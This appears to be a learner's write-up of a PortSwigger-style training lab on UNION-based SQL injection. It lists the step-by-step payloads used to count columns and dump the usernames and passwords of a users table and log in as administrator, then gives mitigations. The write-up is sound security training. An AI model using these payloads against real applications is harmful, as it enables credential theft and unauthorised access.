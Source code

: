 # SQL Injection - UNION Attack: Retrieve Data

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?categoyy=Corporate+gifts HTTP/2
```

### 2. Modified the category parameter to Determine Column Count

```sql
' UNION SELECT NULL,NULL--
```
Response: HTTP/2 200 OK

### 3. Identified Column Accepting String Output

```sql
' UNION SELECT 'a',NULL--
```
Response: HTTP/2 200 OK

```sql
' UNION SELECT NULL,'a'--
```
Response: HTTP/2 200 OK

```sql
' UNION SELECT 'a','a'--
```
Response: HTTP/2 200 OK


### 4. Retrieved Data from Users Table

```sql
' UNION SELECT username,password FROM users--
```
![burpsuite response](./misc-images/05-1.png)

This retrieved all usernames and passwords including the administrator.

### 5. Retrieved Data from Users Table

Logged in as the administrator using the password retrived.

---

## Mitigation

- Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

- Restrict database permissions: The application should connect using a low-privilege database account with access only to the necessary tables and operations. It should not have access to sensitive operations like `SELECT * FROM users`, `DROP`, `UPDATE`, `CREATE`, etc., unless absolutely required.

---

## Reflection

Learned how to retrieve data from other column using UNION-based SQL injection.

---

## Notes


